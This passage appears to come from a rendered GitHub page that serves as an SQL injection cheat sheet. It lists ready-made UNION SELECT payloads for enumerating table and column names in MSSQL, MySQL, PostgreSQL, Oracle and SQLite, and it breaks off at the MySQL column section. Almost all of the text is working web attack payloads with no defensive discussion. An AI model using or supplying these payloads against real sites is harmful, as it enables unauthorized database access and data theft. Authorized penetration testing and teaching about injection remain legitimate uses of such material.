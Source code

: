 <br /><br />

## List Table Names

Get the table name in which you want to get the information.

### MSSQL

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### MySQL

```html
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
' UNION SELECT table_name,NULL FROM information_schema.tables#

<!-- group_concat(): Dump all tables simultaneously -->
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables-- -
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables#
```

### PostgreSQL

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### Oracle

```txt
' UNION SELECT table_name,NULL FROM all_tables--
```

### SQLite

```html
' UNION SELECT tbl_name FROM sqlite_master--
' UNION SELECT tbl_name,NULL FROM sqlite_master--
```

<br /><br />

## List Column Names

Get column names from the table name which we got.

### MSSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### MySQL
